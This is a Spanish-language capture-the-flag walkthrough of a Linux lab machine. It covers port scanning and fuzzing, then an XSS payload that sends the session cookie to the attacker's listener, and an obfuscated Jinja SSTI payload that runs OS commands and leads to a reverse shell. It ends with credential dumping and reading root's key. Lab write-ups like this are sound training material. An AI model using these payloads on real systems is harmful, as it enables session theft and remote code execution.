 #Linux #medium #tecnicas 
### Ping
```python
ping -c 1 10.10.11.12
PING 10.10.11.12 (10.10.11.12) 56(84) bytes of data.
64 bytes from 10.10.11.12: icmp_seq=1 ttl=63 time=71.4 ms

--- 10.10.11.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 71.439/71.439/71.439/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 5000 -Pn 10.10.11.12 -oN Scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-08 22:36 EDT
Nmap scan report for 10.10.11.12
Host is up (0.071s latency).
Not shown: 65506 closed tcp ports (reset), 27 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```

### Enumeración del puerto 80 (http)

![[Pasted image 20240612121627.png]]

![[Pasted image 20240612121633.png]]

### Fuzzing con ffuz
el dominio `/quote` no esta en los directorios de la pagina asi que vamos a investigar  
![[Pasted image 20240612121640.png]]

`quote`
![[Pasted image 20240612121645.png]]

### BurpSuite
vamos a realizar una petición y la interceptamos con burpsuite
![[Pasted image 20240612121650.png]]

`Service`
tenemos 3 service que se estan enviando al servidor. vamos a intentar validarlos enviando una petición a un servidor que tendremos a la escucha
```python
<img+src='http://10.10.14.27/test.png'>
```

![[Pasted image 20240612121659.png]]

### Python3 server
obtenemos la petición que hemos realizado por lo cual podemos decir que esta web es vulnerable a `XSS`
![[Pasted image 20240612121704.png]]

### Cookie
vamos a usar este payload para capturar la cookie de session. 
```python
<img src=x onerror=this.src='http://10.10.14.27/?c='+document.cookie> # URLencode
```

![[Pasted image 20240612121710.png]]

`cookie`
![[Pasted image 20240612121716.png]]

agregamos la cookie en el `cookie-editor`
![[Pasted image 20240612121725.png]]

### dashboad

![[Pasted image 20240612121732.png]]

`Generate Invoice`
![[Pasted image 20240612121737.png]]

`codigo ID 0255314324`
obtenemos un ID Invoice 
![[Pasted image 20240612121745.png]]

`Generator QR`
ingresamos el ID que hemos obtenido anteriormente
![[Pasted image 20240612121804.png]]

### SSTI (Server-Side Template Injection)
realizamos una prueba y es posible ver el resultado dentro del nombre de archivo generado para el código QR. Eso confirma que se está produciendo SSTI
![[Pasted image 20240612121809.png]]

`Burpsuite`
interceptamos la petición con burpsuite y podemos confirmar que se esta ejecutando correctamente el resultado de {{7 * 7}} a partir de aqui solo necesitamos conseguir hacer Bypass para poder ejecutar codigo
![[Pasted image 20240612121814.png]]

### Bypass SSTI 
usando estos parametros podemos hacer un bypass del servicio que esta corriendo por detras el cual hemos logrado ejecutar con éxito el comando id usaremos esto para ejecutar una reverse shell
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![[Pasted image 20240612121820.png]]

### reverse shell
usamos una reverse shell u la URL encodeamos 
![[Pasted image 20240612121824.png]]

### Netcat 
estaremos a la escucha con Netcat por el puerto que hemos especificado y obtenemos la shell
![[Pasted image 20240612121829.png]]

`www-data`
![[Pasted image 20240612121837.png]]
### database
podemos ver las credenciales de usuario
![[Pasted image 20240612121842.png]]

### mysql
podemos listar la base de datos
![[Pasted image 20240612121847.png]]

`mysql`
listando la tabla de usuarios podemos listar credenciales en texto plano
![[Pasted image 20240612121853.png]]

### Crackstation
tenemos la contraseña de consuela
![[Pasted image 20240612121859.png]]

### ssh
tenemos conexión via ssh
![[Pasted image 20240612121904.png]]

### Escalada de privilegios
con un poco de pensamiento lateral podemos leer la root sin escalar privilegios
![[Pasted image 20240612121914.png]]

con este comando vamos a agregar el archivo `root.txt` como un attachment al archivo pdf que ya existe en la maquina y luego lo descargamos para analizarlo en local
![[Pasted image 20240612121921.png]]

### pdfdetach 
de esta manera podemos extraer los archivos que se han agregado al pdf y efectivamente tenemos la root
![[Pasted image 20240612121926.png]]

### id_rsa
aplicando la misma metodología podemos agregar como attachment la id_rsa del usuario root al archivo pdf para luego extraerla
![[Pasted image 20240612121930.png]]

### Escalada
![[Pasted image 20240612121935.png]]
### WE ARE ROOT